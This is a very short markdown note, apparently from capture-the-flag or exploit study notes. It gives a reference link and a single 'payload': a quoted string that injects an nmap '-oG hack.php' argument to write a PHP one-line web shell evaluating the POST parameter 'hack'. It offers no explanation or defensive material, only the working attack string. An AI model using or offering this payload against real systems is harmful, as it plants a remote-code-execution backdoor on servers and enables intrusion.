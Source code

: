 ## 知识点

https://paper.seebug.org/164/

## payload

~~~ php
' <?php @eval(\$_POST[\"hack\"]);?> -oG hack.php '
~~~

